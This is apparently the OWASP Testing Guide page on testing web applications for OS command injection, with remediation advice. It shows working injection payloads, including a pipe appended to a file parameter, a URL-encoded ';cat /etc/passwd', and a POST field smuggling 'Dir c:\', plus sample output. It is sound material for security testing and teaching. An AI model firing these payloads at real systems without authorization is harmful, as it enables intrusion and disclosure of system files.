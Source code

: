 # Testing for Command Injection (OTG-INPVAL-013)


## Summary
This article describes how to test an application for OS command injection. The tester will try to inject an OS command through an HTTP request to the application.


OS command injection is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands.  Any web interface that is not properly sanitized is subject to this exploit.  With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords.  OS command injection is preventable when security is emphasized during the design and development of applications.


## How to Test
When viewing a file in a web application, the file name is often shown in the URL.  Perl allows piping data from a process into an open statement.  The user can simply append the Pipe symbol “|” onto the end of the file name.


Example URL before alteration:<br>
```
 http://sensitive/cgi-bin/userData.pl?doc=user1.txt<br>
```

Example URL modified:<br>
```
 http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|<br>
```

This will execute the command “/bin/ls”.<br>


Appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. %3B is url encoded and decodes to semicolon
<br>

Example:<br>
```
 http://sensitive/something.php?dir=%3Bcat%20/etc/passwd<br>
```

**Example**<br>
Consider the case of an application that contains a set of documents that you can browse from the Internet. If you fire up WebScarab, you can obtain a POST HTTP like the following:

```
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```


In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following:

```
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```


If the application doesn't validate the request, we can obtain the following result:
```
Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
Output...
Il volume nell'unità C non ha etichetta.
Numero di serie Del volume: 8E3F-4B61
Directory of c:\
 18/10/2006 00:27 2,675 Dir_Prog.txt
 18/10/2006 00:28 3,887 Dir_ProgFile.txt
 16/11/2006 10:43
    Doc
    11/11/2006 17:25
       Documents and Settings
       25/10/2006 03:11
          I386
          14/11/2006 18:51
	     h4ck3r
	     30/09/2005 21:40 25,934
		OWASP1.JPG
		03/11/2006 18:29
			Prog
			18/11/2006 11:20
				Program Files
				16/11/2006 21:12
					Software
					24/10/2006 18:25
						Setup
						24/10/2006 23:37
							Technologies
							18/11/2006 11:14
							3 File 32,496 byte
							13 Directory 6,921,269,248 byte disponibili
							Return code: 0
```


In this case, we have successfully performed an OS injection attack.


##Tools

* OWASP [WebScarab](https://www.owasp.org/index.php/OWASP_WebScarab_Project)<br>
* OWASP [WebGoat](https://www.owasp.org/index.php/OWASP_WebGoat_Project)

## References

**White papers**<br>
* http://www.securityfocus.com/infocus/1709<br>

## Remediation
###Sanitization
The URL and form data needs to be sanitized for invalid characters.  A “blacklist” of characters is an option but it may be difficult to think of all of the characters to validate against. Also there may be some that were not discovered as of yet.  A “white list” containing only allowable characters should be created to validate the user input.  Characters that were missed, as well as undiscovered threats, should be eliminated by this list.<br>

###Permissions
The web application and its components should be running under strict permissions that do not allow operating system command execution. Try to verify all these informations to test from a Gray Box point of view<br>
